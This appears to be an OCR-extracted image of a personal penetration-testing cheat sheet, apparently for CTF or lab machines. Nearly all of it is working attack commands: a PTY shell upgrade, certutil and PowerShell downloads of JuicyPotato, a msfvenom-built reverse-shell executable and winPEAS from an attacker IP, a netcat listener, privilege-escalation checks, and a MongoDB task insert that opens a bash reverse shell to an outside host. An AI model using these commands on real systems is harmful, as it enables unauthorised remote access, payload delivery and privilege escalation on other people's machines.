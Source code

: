 For spawning a shell
python -c 'import pty;pty.spawn("/bin/bash")';
python3 -c 'import pty;pty.spawn("/bin/bash")';


download from attacking to target for windows
certutil -urlcache -f http://10.8.102.117:80/JuicyPotato.exe jp.exe

or 


msfvenom --platform Windows -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.102.117 LPORT=1234 -f exe -o shell.exe

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/shell.exe -Outfile 'C:\Windows\Temp\shell.exe'

then create listener 
nc -lvnp 1234 


Check command that can run as sudo.
sudo -l


powershell Invoke-WebRequest -Uri http://10.8.102.117:80/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'


check processes
ps auxww

for mongodb
> db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.23/1337 0>&1'"})


find / -perm +6000 2>/dev/null | grep '/bin/'